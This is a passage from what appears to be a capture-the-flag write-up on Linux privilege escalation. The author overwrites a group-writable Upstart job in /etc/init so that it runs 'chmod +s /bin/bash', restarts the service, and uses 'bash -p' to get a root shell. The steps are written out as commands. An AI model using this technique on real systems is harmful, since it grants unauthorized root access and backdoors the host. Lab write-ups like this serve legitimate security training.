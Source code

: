 Here is the Link to that documentation I read on google : https://linux.die.net/man/8/initctl

we can use initctl to control starting and stopping processes as system. Sounds like a nice simple way to get a root shell. First let's see what’s **/etc/init**.
```
bash-4.3$ /etc/init $ ls -l
total 752
<SNIP>
-rw-rw---- 1 root developers  478 Jun 29  2020 test.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test1.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test10.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test2.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test3.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test4.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test5.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test6.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test7.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test8.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test9.conf
<SNIP>
```
However these called test owned by the developer group look interesting. Let’s check out the first one

```bash
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown
script
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
end script
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script
pre-stop script
    rm /var/run/nodetest.pid
    echo
```
We can replace the contents of this with our own code, let’s get it to change permissions on **/bin/bash** so we can run it with root permissions as katie. Here is the edit file of mine.

```bash
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown

script
chmod +s /bin/bash
end script
```
After we start the service again and run **bash -p** you can get the root.
